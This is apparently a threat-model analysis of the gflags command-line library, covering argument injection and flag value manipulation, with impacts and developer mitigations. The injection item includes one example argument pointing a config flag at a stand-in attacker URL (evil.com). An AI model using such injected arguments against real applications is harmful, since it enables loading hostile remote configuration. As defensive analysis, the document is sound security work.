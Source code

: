 * **Command-Line Argument Injection**
    * **Description:** Attackers inject malicious or unexpected command-line arguments to alter application behavior.
    * **How gflags Contributes:** `gflags` is the mechanism by which the application parses and interprets command-line arguments, making it the entry point for such injections. It defines how flags are recognized and their values are extracted.
    * **Example:** An attacker might provide `--config_file=https://evil.com/malicious.conf` if the application uses a `--config_file` flag and doesn't properly validate the URL.
    * **Impact:**  Can lead to arbitrary code execution, data breaches, denial of service, or unauthorized access depending on how the injected arguments are processed by the application.
    * **Risk Severity:** High to Critical (depending on the application's handling of flag values).
    * **Mitigation Strategies:**
        * **Developers:** Implement strict input validation on all flag values *after* parsing by `gflags`. Sanitize inputs before using them in system calls or sensitive operations. Avoid directly using flag values in shell commands without proper escaping.
        * **Users:** Be cautious about running applications with command-line arguments from untrusted sources.

* **Flag Value Manipulation**
    * **Description:** Attackers provide crafted or excessively long values for existing flags to exploit vulnerabilities in the application's handling of these values.
    * **How gflags Contributes:** `gflags` parses the provided values and makes them available to the application. If the application doesn't handle these values securely, it can be exploited.
    * **Example:** Providing an extremely long string for a flag that is used to allocate a buffer, potentially leading to a buffer overflow in the application's code.
    * **Impact:** Can lead to buffer overflows, memory corruption, denial of service, or unexpected application behavior.
    * **Risk Severity:** High to Critical (depending on the vulnerability in the application's value handling).
    * **Mitigation Strategies:**
        * **Developers:** Implement bounds checking and size limitations when processing flag values. Use safe string handling functions. Avoid assumptions about the length or format of flag values.
        * **Users:** Be aware that providing unusually long or strange values for command-line flags might trigger unexpected behavior.